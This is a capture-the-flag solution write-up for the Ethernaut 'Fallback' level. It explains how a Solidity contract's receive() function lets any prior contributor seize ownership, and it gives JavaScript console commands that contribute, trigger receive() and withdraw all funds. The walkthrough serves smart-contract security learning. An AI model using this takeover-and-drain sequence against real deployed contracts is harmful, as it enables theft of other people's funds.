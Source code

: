 # Ethernaut Fallback Solution

## Smart Contract Overview

This contract manages ETH contributions with the following key functions:

- **`contribute()`**: Allows contributions of less than 0.001 ETH. If the contribution exceeds the owner's, the sender becomes the new owner.
- **`withdraw()`**: Allows only the owner to withdraw all ETH.
- **`receive()`**: Accepts ETH from previous contributors and sets the sender as the new owner.

### Security Vulnerability

The contract contains a critical flaw that allows an attacker to seize ownership and drain funds:

1. **Exploiting the `receive()` function**:
    - The attacker calls `contribute()` with less than 0.001 ETH, ensuring `contributions[msg.sender] > 0`.
    - The attacker then sends any amount of ETH (e.g., 1 wei) to trigger the `receive()` function.
    - The `receive()` function verifies the sender has previously contributed, passing the condition and setting the attacker as the new owner.

2. **Draining funds**:
    - After gaining ownership, the attacker calls `withdraw()` to drain all ETH from the contract.

---

## Solution Walkthrough

The goal is to gain ownership of the contract and withdraw all its funds.

### Key Insights

The critical components to analyze are the `contribute` function and the `receive` fallback function.

#### Owner's Initial Contribution

From the constructor, the owner's contribution is set to **1000 ETH**. To verify this, execute the following commands in the console:

```javascript
ownerAddr = await contract.owner();
await contract.contributions(ownerAddr).then(v => v.toString());
// Output: '1000000000000000000000'
```

Contributing more than 1000 ETH is impractical. Instead, we exploit the `receive` function.

---

### Step-by-Step Solution

#### 1. Make a Small Contribution

To meet the condition `contributions[msg.sender] > 0`, contribute less than **0.001 ETH**:

```javascript
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009') });
```

Verify the contribution:

```javascript
await contract.getContribution().then(v => v.toString());
```

#### 2. Trigger the `receive` Function

Send a minimal amount of ETH to the contract to trigger the `receive` function:

```javascript
await sendTransaction({ from: player, to: contract.address, value: toWei('0.000001') });
```

Ownership is now transferred to the player. Verify the ownership change:

```javascript
await contract.owner();
// Output: Player's address
```

---

### 3. Withdraw the Contract's Funds

As the new owner, withdraw all ETH from the contract:

```javascript
await contract.withdraw();
```

---

## Challenge Solved!

By exploiting the `receive` function, ownership was transferred, and all funds were successfully withdrawn.